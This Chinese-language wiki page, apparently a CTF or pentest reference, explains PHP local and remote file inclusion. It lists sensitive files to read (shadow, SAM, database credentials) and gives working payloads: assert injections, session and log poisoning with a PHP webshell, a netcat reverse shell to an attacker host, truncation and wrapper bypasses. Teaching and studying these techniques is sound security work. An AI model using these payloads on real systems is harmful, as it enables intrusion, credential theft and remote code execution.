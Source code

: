 文件包含
========================================

基础
----------------------------------------
文件包含函数加载的参数没有经过过滤或者严格的定义，可以被用户控制，包含其他恶意文件，导致了执行了非预期的代码。


触发Sink
----------------------------------------
- PHP文件包含函数有以下四种
    - include
        - 在包含过程中出错会报错，不影响执行后续语句
    - include_once
        - 仅包含一次
    - require
        - 在包含过程中出错，就会直接退出，不执行后续语句
    - require_once

本地文件包含漏洞
----------------------------------------

- 敏感信息路径


::

	Windows系统
	c:\boot.ini // 查看系统版本
	c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
	c:\windows\repair\sam // 存储Windows系统初次安装的密码
	c:\ProgramFiles\mysql\my.ini // MySQL配置
	c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
	c:\windows\php.ini // php 配置信息	
	payload:https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-win.txt

	Linux/Unix系统
	/etc/passwd 	//账户信息
	/etc/shadow 	//账户密码文件
	/usr/local/app/apache2/conf/httpd.conf	//Apache2默认配置文件
	/usr/local/app/apache2/conf/extra/httpd-vhost.conf	//虚拟网站配置
	/usr/local/app/php5/lib/php.ini		//PHP相关配置
	/etc/httpd/conf/httpd.conf 		//Apache配置文件
	/etc/my.conf 		//mysql配置文件
	/etc/hostname		//获取主机名
	/etc/httpd/logs/access_log		//apache配置log
	/etc/httpd/logs/error_log		//apache配置log
	.htaccess		//文件中的配置指令作用于.htaccess文件所在的目录及其所有子目录
	.htpasswd		//HTTP用户的basic认证密码文件，一般在/var/www(/mysite)/.htpasswd
	payload:https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt
	
- assert
	+ ``assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");``
	+ ``' and die(show_source('/etc/passwd')) or '``
	+ ``' and die(system("whoami")) or '``
	+ ``assert("strpos('' and die(system("whoami")) or '', '..') === false") or die("Detected hacking attempt!");``
	
- session文件包含漏洞
	利用条件：session的存储位置可以获取。(phpinfo()或猜测,如linux下默认存储在/var/lib/php/session目录下)
	示例：
	::

		<?php
		    session_start();
		    $ctfs=$_GET['ctfs'];
		    $_SESSION["username"]=$ctfs;
		?>

	漏洞分析:
	::

		此php会将获取到的GET型ctfs变量的值存入到session中。
		当访问http://www.ctfs-wiki/session.php?ctfs=ctfs 后，会在/var/lib/php/session
		目录下存储session的值。
		session的文件名为sess_+sessionid，sessionid可以通过开发者模式获取。

	|fileincludesessionid|

	所以session的文件名为sess_akp79gfiedh13ho11i6f3sm6s6。
	服务器的/var/lib/php/session目录下此文件内容为：
	::

		username|s:4:"ctfs";
		[root@c21336db44d2 session]# cat sess_akp79gfiedh13ho11i6f3sm6s6
		username|s:4:"ctfs"

	漏洞利用:

	::

		通过上面的分析，可以知道ctfs传入的值会存储到session文件中，如果存在本地文件包含漏洞，就可以通过
		ctfs写入恶意代码到session文件中，然后通过文件包含漏洞执行此恶意代码getshell。
		当访问http://www.ctfs-wiki/session.php?ctfs=<?php phpinfo();?>后，会在/var/lib/php/session目录下
		存储session的值。
		
- 日志文件包含getshell
	+ 概述
		访问链接中包含PHP一句话木马时，会被记录到日志中。如果知道服务器的日志位置，包含这个文件从而拿到shell。
	+ 利用条件
		| 1.日志的物理存放路径
		| 2.存在文件包含漏洞
		| 3.curl命令行url请求工具或者burpsuit代理（避免url转码的存在,可使用NC）
	+ 漏洞利用
		| 1.构造日志
			
			::
			
				nc 192.168.100.106 80
				GET <?php system($_GET['cmd']); ?> HTTP/1.1
				
		| 2.vps监听：``nc -lvp 4444``
		| 3.构造请求：``wget "http://192.168.100.106:8593/index.php?book=../../../../var/log/apache2/access.log&cmd=nc 192.168.100.108 4444 -e /bin/bash"``
		| 也可以使用msf/web_delivery模块实现getshell。
- 技巧
	+ wfuzz关键字
		::
		
			wfuzz -c -w /opt/wordlist/dirb/directory-list-2–3mediumt.txt -hw 382 -u http://192.168.43.225/index.php?FUZZ=/etc/passwd

- 漏洞绕过
	+ %00截断
		测试代码：
		::

			<?php
				$filename  = $_GET['filename'];
				include($filename . ".html");
			?>

		  ``http://www.ctfs-wiki.com/FI/FI.php?filename=../../../../../../../boot.ini%00`` 

	+ 路径长度截断
		条件：windows OS，点号需要长于256；linux OS 长于4096
		::

			Windows下目录最大长度为256字节，超出的部分会被丢弃；
			Linux下目录最大长度为4096字节，超出的部分会被丢弃。

		测试代码：
		::

			<?php
				$filename  = $_GET['filename'];
				include($filename . ".html");
			?>

		EXP:
		::

			http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././

	+ 点号截断
		条件：windows OS，点号需要长于256

		测试代码：
		::

			<?php
				$filename  = $_GET['filename'];
				include($filename . ".html");
			?>

		EXP:
		::

			http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................


远程文件包含漏洞
----------------------------------------
PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，
如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

- 漏洞绕过
	+ 问号绕过
		 ``<?php include($_GET['filename'] . ".html"); ?>`` 代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀，问号绕过如下：
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt?`` 
	+ #号绕过
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%23`` 
	+ 空格绕过
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%20`` 

url编码绕过
----------------------------------------
如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过。

伪协议绕过
----------------------------------------
- PHP input: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input`` 的形式
	- 命令执行
		|fileincludecommand|
	- 写入webshell
		条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行。如果POST的数据是执行写入一句话木马的PHP代码，就会在当前目录下写入一个木马。
		|fileincludemuma|
- Base64伪协议读取文件
	payload为 ``?file=php://filter/convert.base64-encode/resource=index.php`` 
- data伪协议读取文件内容
	payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 的形式，要求 ``allow_url_include=On``
	

参考链接
----------------------------------------
- `Exploit with PHP Protocols <https://www.cdxy.me/?p=752>`_
- `lfi cheat sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_

.. |fileincludesessionid| image:: ../images/fileincludesessionid.jpg
.. |fileincludemuma| image:: ../images/fileincludemuma.jpg
.. |fileincludecommand| image:: ../images/fileincludecommand.jpg